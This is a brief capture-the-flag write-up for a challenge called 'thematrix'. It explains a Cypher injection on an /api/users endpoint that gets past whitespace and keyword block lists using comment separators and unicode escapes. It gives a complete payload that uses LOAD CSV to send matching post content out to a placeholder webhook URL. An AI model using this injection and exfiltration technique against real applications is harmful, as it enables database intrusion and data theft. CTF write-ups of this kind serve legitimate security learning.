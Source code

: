 # Writeup thematrix

Cypher injection on `/api/users` endpoint. Bypass whitespace blacklist with multiline comments and bypass `NETSOS` blacklist with unicode escape.

Payload (needs to be URL encoded):
```
alicechang"})match/**/(p:Post)/**/where/**/p.content/**/contains/**/"\u004E\u0045\u0054\u0053\u004F\u0053"/**/load/**/csv/**/from/**/"<WEBHOOK_URL>/"+p.content/**/as/**/x/**/return/**/u/**///
```
